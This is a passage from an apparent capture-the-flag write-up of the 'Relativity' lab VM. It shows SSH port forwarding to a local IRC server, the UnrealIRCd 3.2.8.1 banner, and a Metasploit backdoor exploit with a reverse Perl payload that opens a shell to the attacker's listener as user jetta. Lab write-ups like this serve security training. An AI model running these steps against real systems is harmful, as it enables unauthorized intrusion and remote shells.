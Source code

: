 We also notice Unreal ircd running as the other user jetta in the ps list and eventually remember that 6667 is the irc port. Lets forward that port back to our attacker box. We do ```ssh -L 6667:127.0.0.1:6667 mauk@192.168.147.178 -i mauk.key``` from our machine then in another window we can connect to it locally at 127.0.0.1:6667 with irssi or whatever.

```bash
 Irssi v1.2.1-1 - https://irssi.org                                                                                                                                                                                
23:06 -!- Irssi: Looking up 127.0.0.1
23:06 -!- Irssi: Connecting to 127.0.0.1 [127.0.0.1] port 6667
23:06 -!- Irssi: Connection to 127.0.0.1 established
23:06 !relativity.localdomain *** Looking up your hostname...
23:07 !relativity.localdomain *** Couldn't resolve your hostname; using your IP address instead
23:07 -!- You have not registered
23:07 -!- Welcome to the Relativity IRC Network root!root@localhost
23:07 -!- Your host is relativity.localdomain, running version Unreal3.2.8.1
23:07 -!- This server was created Thu Feb 28 2013 at 17:54:35 EST
23:07 -!- relativity.localdomain Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
23:07 -!- UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 are supported by this server
23:07 -!- WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=Relativity CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT 
          STATUSMSG=~&@%+ are supported by this server
23:07 -!- EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP are supported by this server
23:07 -!- There are 1 users and 0 invisible on 1 servers
23:07 -!- I have 1 clients and 0 servers
23:07 -!- Current Local Users: 1  Max: 1
23:07 -!- Current Global Users: 1  Max: 1
23:07 -!- - relativity.localdomain Message of the Day - 
23:07 -!- - 9/7/2013 9:17
23:07 -!- -     __________       .__          __  .__      .__  __
23:07 -!- -     \______   \ ____ |  | _____ _/  |_|__|__  _|__|/  |_ ___.__.
23:07 -!- -      |       _// __ \|  | \__  \\   __\  \  \/ /  \   __<   |  |
23:07 -!- -      |    |   \  ___/|  |__/ __ \|  | |  |\   /|  ||  |  \___  |
23:07 -!- -      |____|_  /\___  >____(____  /__| |__| \_/ |__||__|  / ____| ·VM·
23:07 -!- -             \/     \/          \/                        \/
23:07 -!- End of /MOTD command.
23:07 -!- Mode change [+iwx] for user root
```
No chats are happening in here, but noticing the version 3.2.8.1 of UnrealIRCD, we remember an older command execution exploit against this that even has a metasploit module. Using msf with a cmd/unix/reverse_perl payload, we can get a shell back this time as jetta.
```bash
msf5 exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 192.168.147.171:4444
[*] 127.0.0.1:6667 - Connected to 127.0.0.1:6667...
    :relativity.localdomain NOTICE AUTH :*** Looking up your hostname...
[*] 127.0.0.1:6667 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.147.171:4444 -> 192.168.147.178:42049) at 2019-09-04 23:21:26 -0400

id
uid=1002(jetta) gid=1002(jetta) groups=1002(jetta)
```
We can now checkout jettas home folder, looks like some kind of binary in there "auth_server". 
```bash
ls -lah /home/jetta/auth_server/           
total 16K
drwxr-xr-x  2 root  root  4.0K Jul  9  2013 .
drwx------. 3 jetta jetta 4.0K Jul  9  2013 ..
-rwxr-xr-x  1 root  root  7.9K Mar  8  2013 auth_server
```